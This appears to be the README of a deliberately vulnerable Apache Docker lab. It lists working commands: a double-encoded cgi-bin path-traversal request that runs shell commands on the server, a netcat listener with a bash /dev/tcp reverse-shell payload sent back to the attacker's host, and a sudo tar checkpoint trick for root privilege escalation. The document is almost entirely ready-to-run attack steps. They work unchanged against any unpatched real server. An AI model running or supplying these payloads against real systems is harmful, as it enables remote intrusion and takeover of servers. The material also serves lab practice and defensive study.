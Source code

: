 # Build and start the vulnerable docker :
`chmod +x ./build.sh && ./build.sh`

# Obtain a shell from the docker :
`docker exec -it apache-vuln /bin/bash`

# RCE via Apache server :
`curl -s --path-as-is 'http://<IP>:4444/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; whoami'`

# Reverse shell via Apache Server :
## Step 1 :
  On your host, set up a listener :
`nc -nvlp <port>`
## Step2 :
  On your host, use curl to execute code on the Apache Server :
`curl -s --path-as-is 'http://<IP>:4444/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; bash -c "/bin/sh -i >& /dev/tcp/<your host IP>/<your listener port> 0>&1"'`

# Privesc
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
